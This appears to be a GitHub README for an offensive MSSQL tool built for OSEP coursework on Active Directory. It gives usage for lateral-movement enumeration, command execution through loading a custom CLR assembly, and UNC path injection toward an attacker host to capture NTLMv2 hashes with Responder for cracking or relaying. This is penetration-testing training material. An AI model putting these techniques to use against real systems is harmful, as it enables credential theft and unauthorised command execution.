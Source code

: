 # MSSQL Active Directory Client
This project is intended to be a plug-and-play executable that performs everything outlined in the OSEP coursework for exploiting MSSQL in Active Directory


## Usage 
```
## Attempt to and automatically do enumeration for lateral movement ##
.\sql.exe *server name* *database*

## Manually provide the connection String
.\sql.exe --conn "Connection String" 

## Connect and begin an enter interactive session
.\sql.exe *server name* *database* -i
.\sql.exe --conn "Connection String" -i


## Interactive Mode options
!help
    Display interactive mode help menu

!assembly *dll file*
    Load in custom Assembly.
    Default Assembly Name: myAssembly
    Default Procedure Name: cmdExec
    Note: Your dll must use a class named 'SqlCmdExec' and contain a 'cmdExec' Method.

!deleteAssembly *Assembly Name* *Procedure Name*
    Drop Assembly and Procedure from SQL instance

!getHash *attacker ip/domain name*
    Attempt UNC Path Injection
    Be sure to run 'sudo responder -i *interface*' before running this.
    This should grant you a NTLMv2/Net-NTLM hash.
    This can be either be cracked with hashcat, or relayed with impacket-ntlmrelayx
```
